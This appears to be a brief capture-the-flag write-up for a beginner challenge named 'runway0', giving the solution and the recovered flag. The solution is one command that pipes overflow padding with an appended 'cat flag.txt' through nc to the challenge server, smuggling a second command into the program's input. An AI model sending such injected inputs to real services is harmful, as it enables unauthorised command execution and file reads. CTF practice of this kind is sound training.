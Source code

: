 # runway0

Solved by: @OS1RIS

### Question
If you've never done a CTF before, this runway should help!

Hint: MacOS users (on M series) will need a x86 Linux VM. Tutorial is here: pwnoh.io/utm

### Solution:

```
echo 'AAAAABBBBBCCCCCDDDDDEEEEEFFFFFGGGGGHHHHHIIIIIJJJJJKKKKKLLLLLMMMMMNNNNNOOOOOPPPPPQQQQQRRRRRSSSSSTTTTTUUUUUVVVVVWWcat flag.txt' | nc challs.pwnoh.io 13400
Give me a message to say!
bctf{0v3rfl0w_th3_M00m0ry_2d310e3de286658e}
```

**Flag:** `bctf{0v3rfl0w_th3_M00m0ry_2d310e3de286658e}`
